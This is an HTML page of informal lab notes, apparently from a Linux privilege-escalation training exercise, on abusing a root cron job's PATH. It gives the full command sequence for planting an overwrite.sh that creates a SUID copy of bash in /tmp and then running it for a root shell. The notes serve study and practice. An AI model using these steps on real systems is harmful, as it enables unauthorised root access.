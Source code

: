 <!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Cron Paths</title>
</head><body><b>Escalation via Cron Paths</b><br/>
<br/>
<br/>
Search by catting out crontable<br/>
<br/>
<br/>
cat /etc/crontab<br/>
<br/>
<br/>
<img height="331" src="image.png" width="750"/><br/>
<br/>
Lots of info.<br/>
<br/>
Chekc path.. its first checking in /home/user. tahts good.<br/>
<br/>
the tasks being run (by root) are overwrite and comrpess.<br/>
<br/>
The key difference is overwrite is not being directly called like compress. this means we can check for and potentailly modify or insert overwrite.sh into home user and escalate.<br/>
<br/>
check if its there<br/>
<br/>
<b>ls -la</b><br/>
<br/>
not there./ perfect create own<br/>
<br/>
one liner<br/>
<br/>
syntax &gt; <b>echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt; /home/user/overwrite.sh</b><br/>
<br/>
Then <b>chmod+x /home/user/overwrite.sh<br/>
</b><br/>
ls -la and check its there... <br/>
<br/>
take not of the time modified.<br/>
<br/>
check back in a few minutes note that the time mopdifed has changed<br/>
<br/>
run it<br/>
<br/>
<b>/tmp/bash -p</b><br/>
<br/>
<img height="94" src="image 2.png" width="650"/><br/>
<br/>
<br/>
<br/>
<br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: cat /etc/crontab<br/>
2. From the output, notice the value of the “PATH” variable.<br/>
<br/>
Exploitation<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type:<br/>
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' &gt; /home/user/overwrite.sh<br/>
2. In command prompt type: chmod +x /home/user/overwrite.sh<br/>
3. Wait 1 minute for the Bash script to execute.<br/>
4. In command prompt type: /tmp/bash -p<br/>
5. In command prompt type: id<br/>
<br/>
<br/>
<br/>
<br/>
</body></html>